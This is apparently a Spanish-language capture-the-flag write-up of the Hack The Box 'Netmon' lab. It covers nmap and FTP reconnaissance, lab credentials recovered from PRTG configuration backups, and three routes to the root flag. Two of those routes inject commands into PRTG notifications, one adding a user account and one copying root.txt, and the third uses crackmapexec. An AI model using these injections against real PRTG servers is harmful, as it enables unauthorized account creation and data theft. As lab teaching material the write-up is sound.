 ```yaml
---
layout:   post
title:    "Write Up Netmon."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Windows,FTP,CVE,RCE,Weak-Authentication,Write-Up-Machine,Starting-Point] 
---
```

![list](/assets/img/netmon/Captura de pantalla (142).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes 

técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.10.152 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}

![list](/assets/img/netmon/Kali-2022-09-09-15-00-11.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.

```bash
nmap -p21,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sV -sC 10.10.10.152 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Aunque tenemos muchos puertos abiertos niguno de ellos representa una vulnerabilidad 

exectuando el pueto 21 FTP ademas de el puento80 que es Web.

```bash
ftp 10.10.10.52
```
Husmeando por los direcctorios en el escritorio nos encontramos con la flag de user.
{:.note}

Enumeramos las tecnologias que usa la web con whatweb o wapalizer.

![list](/assets/img/netmon/Kali-2022-09-09-15-18-56.png){:.lead width="800" height="100" loading="lazy"}


Tambien si nos vamos a ala web vemos que temenos la capacidad de loogearnos lo cual podemos 

probar usar contraseñas por defecto bucando por internet.



Si busacmo en internet por path traversal windows presseler o o buscando manualmente en el ftp 

daremos con el archivo de configuracion de PRTG y tambien la copia de seguridadcon el comando 

wget nos decargamos los dos archivos a la maquina atacante para analizar dichos documentos.

```bash
curlftpfs ftp://10.10.10.152 /mnt/montura
```
Esto es para movilizarnos con fluides por el ftp pero no esnesesario. 
{:.note}

Para movilizanos con rapides por los direcctorios de FTP podiamos crear una montura con 

certutils.

```bash
diff Configuration.old Configuration.old.bak -y | less
```

{:.note}
El parametro -y es parq que en pantalla aparescan los dos documetos y sea mas facil su analisis, 

encontramos un ususrio y contraseña que usaremos en la pagina web para loogearnos.


![list](/assets/img/netmon/Kali-2022-09-09-16-20-57.png){:.lead width="800" height="100" loading="lazy"}
User=prtgadmin pass=PrTg@dmin2018
{:.note}

![list](/assets/img/netmon/Kali-2022-09-09-16-21-48.png){:.lead width="800" height="100" loading="lazy"}

Si buscamos en internet algun exploit relacionado con PRTG o viendo los archivos de la licencia 

de PRTG vemos que has una ruta a la cual hacen refercia que es /myaccount.htm?tabid=2 la cua si 

la pegamos des pues de la ip uan ves loogeados no rdirigue a una seccion donde se pueden crea 

notificaciones.

![list](/assets/img/netmon/Kali-2022-09-09-16-23-12.png){:.lead width="800" height="100" loading="lazy"}

![list](/assets/img/netmon/Kali-2022-09-09-16-37-44.png){:.lead width="800" height="100" loading="lazy"}
en el ftp esta en codigo html lo cual podemos decodearlo en la terminal o via web en [codebeautify].
{:.note}

[codebeautify]: https://codebeautify.org/html-decode-string

***
## Explotacion y Escalacion de privilegios

Tenemos varias formas de explotar obtener la flag root pero vamos a ver tres.

### Primera forma

es usar el exploit de github el cual nos dice que nesesitamos la cookie de seccion la cual 

interceptamos con burpsuite.

![list](/assets/img/netmon/Kali-2022-09-09-17-33-04.png){:.lead width="800" height="100" loading="lazy"}
Interceptar la cookie.
{:.note}

![list](/assets/img/netmon/Kali-2022-09-09-17-34-35.png){:.lead width="800" height="100" loading="lazy"}
El exploit lo que hace es que crea o injecta un  usuario y pass para el usuario root.
{:.note}

Luego con crackmaapexec nos loogeamos y obtenemos la flag de root.

```bash
crackmaapexec smb 10.10.10.152 -u "pentest" -p "P3nTest!"
```
***
### Segunda forma

Nos debemos crear una noticicacion en la cual podemos inyectar un usuario y pass para usar 

crackmapexex o ssh ,o una reverse shell.

![list](/assets/img/netmon/Kali-2022-09-09-16-49-48.png){:.lead width="800" height="100" loading="lazy"}
Creamos una notificacion llamada test.
{:.note}

En la parte mas baja en la seccion de remote execution code existe la posibilidad de insetar 

una lineas de comando para hacer lo antes mecionado de la siguiente manera.

```bash
C:\\User\\Public\\Texter; net user test test123 add/ 
```
Ya creado usamos crackmapexec. 
{:.note}

### Tercera forma

Es lo mismo que el paso anterio pero en ves crear usuario y contraseña copiamos la flags de root al 

directio FTP.

![list](/assets/img/netmon/Kali-2022-09-09-17-24-33.png){:.lead width="800" height="100" loading="lazy"}

```bash
tester.txt Copy-Item -Path "C:\Users\Administrator\Desktop\root.txt" -Destination "C:\Users\Public\texter.txt" -Recurse
```
Ya seria diriguirse a la  ruta donde guardamos el recurso en el FTP. 
{:.note}

***
```bash
🎉 Felicitaciones ya has comprometido Netmon de HackTheBox 🎉
```
{:.centered}
***

Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}

